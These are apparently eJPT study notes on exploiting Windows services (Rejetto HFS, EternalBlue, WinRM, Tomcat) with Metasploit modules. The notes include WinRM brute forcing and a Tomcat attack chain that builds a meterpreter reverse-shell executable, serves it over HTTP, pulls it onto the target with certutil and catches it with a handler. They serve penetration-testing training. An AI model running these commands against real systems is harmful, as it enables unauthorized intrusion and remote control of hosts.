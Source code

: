 # 33 Windows Exploitation

# Exploiting a Vulnerable HTTP File Server

- An HTTP File Server (HFS) is a web server that is designed for file & document sharing
- HTTP File Servers typically run on TCP port 80 and utilize the HTTP protocol for underlying communication
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on both Windows and Linux
- Rejetto HFS V2.3 is vulnerable to a remote command execution attack
- MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS

### DEMO

```shell
msf6: exploit(windows/http/rejetto_hfs_exec)
```


# Exploiting Windows MS17-010 SMB Vulnerability

- EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of
- The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadows Brokers in 2017
- The EternalBlue exploit take advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands

- The EternalBlue exploit was used in the WannaCry ransomware attack on June 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible 
- This vulnerability affects multiple versions of Windows
	- Windows Vista
	- Windows 7
	- Windows Server 2008
	- Windows 8.1
	- Windows Server 2012
	- Windows 10
	- Windows Server 2016

- Microsoft released a patch for the vulnerability in March 2017, however, many users and companies have still not yet patched their systems
- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system

### DEMO

```shell
msf6: auxiliary(scanner/smb/smb_ms17_010)
msf6: exploit(windows/smb/ms17_010_eternalblue)
```


# Exploiting WinRM (Windows Remote Management Protocol)

- Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems
- WinRM is typically used in the following ways
	- Remotely access and interact with Windows hosts on a local network
	- Remotely access and execute commands on Windows systems on the internet
	- Manage and configure Windows systems remotely
- WinRM typically uses TCP port 5985 and 5986 (HTTPS)

- WinRM implements access control and security for communication between systems through various forms of authentication
- We can utilize the MSF to identify WinRM users and their password as well as execute commands on the target system
- We can also utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system

### DEMO

```shell
msf6: auxiliary/scanner/winrm/winrm_auth_methods # Verify auth methods
msf6: auxiliary(scanner/winrm/winrm_login) # Brute force
msf6: auxiliary(scanner/winrm/winrm_cmd) # Runs arbitrary Windows commands
msf6: exploit(windows/winrm/winrm_script_exec) # Uses valid credentials to login to the WinRM service adn execute a payload
```


# Exploiting a Vulnerable Apache Tomcat Web Server

- Apache Tomcat, also known as Tomcat server, is a popular, free and open source Java servlet web server
- It is used to build and host dynamic websites and web applications based on the java software platform
- Apache Tomcat utilizes the HTTP protocol to facilitate the underlying communication between the server and clients
- Apache Tomcat runs on TCP port 8080 by default
- The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP
- The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java
- Apache Tomcat V8.5.19 is vulnerable to a remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server
- We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server

### DEMO 

```shell
msf6: exploit(multi/http/tomcat_jsp_upload_bypass)
msf6: set payload java/jsp_shell_bind_tcp
msf6: set shell cmd # Use Windows shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe > <name>.exe
sudo python -m SimpleHTTPServer 80 # Host the payload to download on sessions 1
msf6: sessions 1
msf6: certutil -urlcache -f http://<ip>/<name>.exe <name>.exe # Download the payload
nano handler.rc # Create handler 
	use multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.49.3
	set lport 1234 
msfconsole -r handler.rc # Setup handler automatically 
msf6: ./<name>.exe # Run the payload, do on session 1 
```

#eJPT #cybersecurity 
